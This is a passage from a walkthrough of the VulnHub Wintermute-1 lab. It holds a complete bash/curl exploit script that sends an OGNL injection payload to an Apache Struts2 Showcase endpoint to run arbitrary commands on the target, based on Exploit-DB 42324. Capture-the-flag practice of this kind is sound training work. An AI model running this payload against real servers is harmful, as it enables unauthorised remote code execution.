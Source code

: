 Once again Google comes to the rescue. Searching for "struts2 showcase exploit" brought me to EDB-ID [42324](https://www.exploit-db.com/exploits/42324/). Neuromancer lacks certain Python libraries to make the exploit work. As such, I wrote my own exploit script based on `curl`.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

LHOST=192.168.30.128
LPORT=4321
RHOST=192.168.30.129
RPORT=8080
TARGETURI=struts2_2.3.15.1-showcase/integration
URL=http://$RHOST:$RPORT/$TARGETURI/saveGangster.action
CMD="$1"
PAYLOAD=""
PAYLOAD="${PAYLOAD}%{"
PAYLOAD="${PAYLOAD}(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
PAYLOAD="${PAYLOAD}(#_memberAccess?(#_memberAccess=#dm):"
PAYLOAD="${PAYLOAD}((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
PAYLOAD="${PAYLOAD}(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
PAYLOAD="${PAYLOAD}(#ognlUtil.getExcludedPackageNames().clear())."
PAYLOAD="${PAYLOAD}(#ognlUtil.getExcludedClasses().clear())."
PAYLOAD="${PAYLOAD}(#context.setMemberAccess(#dm))))."
PAYLOAD="${PAYLOAD}(@java.lang.Runtime@getRuntime().exec('$CMD'))"
PAYLOAD="${PAYLOAD}}"

usage() {
  echo "Usage: $(basename $0) [COMMAND]" >&2
  exit 1
}

if [ $# -ne 1 ]; then
  usage
fi

curl -s \
     -H "Referer: http://$RHOST:$RPORT/$TARGETURI/editGangster" \
     --data-urlencode "name=$PAYLOAD" \
     --data-urlencode "age=20" \
     --data-urlencode "__checkbox_bustedBefore=true" \
     --data-urlencode "description=1" \
     -o /dev/null \
     $URL
```

Let's give the exploit script a shot and see if I'm able to execute remote commands.

_On the exploit script terminal_

![a8e2cbb2.png](/assets/images/posts/wintermute-1-walkthrough/a8e2cbb2.png)


[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://www.reddit.com/user/_creosote
[3]: https://www.vulnhub.com/